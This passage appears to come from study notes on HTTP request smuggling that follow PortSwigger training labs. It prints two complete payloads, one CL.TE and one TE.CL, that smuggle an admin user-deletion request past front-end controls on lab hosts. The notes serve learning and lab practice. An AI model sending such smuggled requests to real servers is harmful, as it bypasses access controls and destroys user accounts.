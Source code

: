 We can provide a complete HTTP request to prepend the next request by any victim. We can bypass front-end filters by sending an allowed request in the attack request, and an unauthorized request in the normal request that we smuggle. To make sure the headers from the original request don't interfere we can put it in a body like seen below:

```http
POST /post/comment HTTP/1.1
Host: 0a81003103886215c0150d01000b0097.web-security-academy.net
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

x=
```

### TE.CL

{% embed url="https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl" %}
Portswigger **lab** for performing CSRF using TE.CL
{% endembed %}

Same as confirming TE.CL

```http
POST /post/comment HTTP/1.1
Host: 0abb004d04e98969c1810092007c00eb.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

86
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

x=
0


```

### Leaking headers

{% embed url="https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting" %}
Portswigger **lab** for leaking internal headers with HTTP Request Smuggling
{% endembed %}
